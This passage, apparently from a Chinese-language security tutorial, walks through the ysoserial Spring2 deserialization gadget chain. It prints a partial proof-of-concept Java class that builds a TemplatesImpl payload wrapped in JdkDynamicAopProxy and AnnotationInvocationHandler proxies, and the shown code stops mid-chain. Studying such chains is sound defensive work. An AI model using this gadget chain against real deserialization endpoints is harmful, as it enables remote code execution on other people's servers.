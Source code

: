 这份POC代码已经是完整的了，但是为了验证效果，我们需要把`TemplatesImpl`进行补全，同时补全用于验证效果的序列化和反序列化方法。

## 完整POC

在经过了上边分析和POC补全过程后，于是你就得到了和ysoserial中的Spring2攻击链一样的代码，同时在最后你还找到了，让我们运行这份代码看看效果：

```java
package spring;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.SingletonTargetSource;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class Spring2 {
    private static final String serialFileName = "spring2.ser";

    public static void main(String[] args) throws Exception {

        TemplatesImpl templates = genTemplates();
        AdvisedSupport as = new AdvisedSupport();
        // new LazyInitTargetSource
        // new HotSwappableTargetSource
        as.setTargetSource(new SingletonTargetSource(templates));
        Class<?> JdkDynamicAopProxyClass = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> JdkDynamicAopProxyCtor = JdkDynamicAopProxyClass.getDeclaredConstructors()[0];
        JdkDynamicAopProxyCtor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler)JdkDynamicAopProxyCtor.newInstance(as);
        // 按理来说，这里的xxxxxxxxxx如果能塞进来一个TemplatesImpl对象，此时我们就能完成攻击链的构造了
        // 很不巧，newProxyInstance的第三个参数是一个必须要实现InvocationHandler接口的动态代理实现类
        // 而TemplatesImpl对象是没有实现这个接口的
        Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring2.class.getClassLoader(), new Class[]{Type.class, Templates.class}, invocationHandler);

        Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
        aihCtor.setAccessible(true);

        Map<String, Object> map = new HashMap<>();
        // 此时map中的Object就是我们实现了Type和Templates这两个接口的实例了
        map.put("getType", typeTemplatesProxy);
        InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
        Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProviderProxy = Proxy.newProxyInstance(Spring2.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);

```